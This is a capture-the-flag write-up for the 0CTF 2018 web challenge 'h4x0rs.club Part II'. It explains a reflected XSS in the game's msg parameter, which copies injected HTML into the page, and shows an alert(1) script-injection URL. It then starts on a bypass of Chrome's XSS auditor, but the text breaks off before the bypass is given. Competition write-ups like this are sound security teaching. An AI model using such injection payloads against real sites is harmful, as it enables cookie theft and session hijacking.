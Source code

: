 # 0CTF 2018: h4x0rs.club  - Part II

**Category:** Web  
**Points:** 687  
**Solves:** 6  
**Description:**

> Get document.cookie of the admin: https://h4x0rs.club/game/

**Note:** This is an unintendend solution for the challenge.  
## Write-up  
  
### Finding the XSS

There is a XSS on `/game/javascripts/app.js` in the function responsible for
checking if the player won or lost the game.

```  
function b() {  
      x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show();  
      [...]  
}  
```

The function above copies the html of an element with id `audiences` to an
element with class `js-user` so by creating these elements using the injection
on `/game/?msg=` we can achieve javascript execution.

Then, theoretically, by accessing `https://h4x0rs.club/game/?msg=<div
id="audiences"><script>alert(1);</script></div><div class="js-user"></div>`
and clicking on the play button an alert should pop up after around 15 seconds
(the time it takes for the game to end).

But it doesn't, we are stopped by Chrome's XSS auditor which blocks the access
to the page because it detected that a `script` tag on the URL was also
reflected into the page.

We can bypass it by sending `https://h4x0rs.club/game/?msg=<div
id="audiences"><script>

Original writeup
(https://github.com/lbherrera/writeups/blob/master/0ctf_quals-2018/h4x0rs.club/README.md).